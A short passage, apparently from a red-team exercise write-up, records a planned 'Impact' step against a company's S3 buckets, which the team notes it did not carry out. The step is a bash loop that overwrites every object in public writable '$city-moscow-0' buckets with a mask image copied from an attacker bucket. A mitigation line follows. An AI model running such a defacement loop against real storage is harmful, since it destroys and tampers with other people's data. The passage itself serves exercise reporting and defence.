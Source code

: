 
## 11:30 Thursday
*Quiet Time - Lunch*


## 12:30 Thursday

### Impact - start replacing all memes with MoneyHeist Mask.

*At this point RedTeam was doing burn activity, so we didn't do this*

URL: https://fooli-evil-images.s3.amazonaws.com/dali.png

![](images/dali.png)

```bash
for city in `cat cities.txt` ; do
	for key in `aws s3api list-objects-v2 --bucket $city-moscow-0 --query Contents[].[Key] --output text | grep -v images.html` ; do
		aws s3 cp s3://fooli-evil-images/dali.png s3://$city-moscow-0/$key --acl public-read
	done
done
```

**Mitigation:** If you had stopped the buckets from being public read/write this attack would have been stopped.
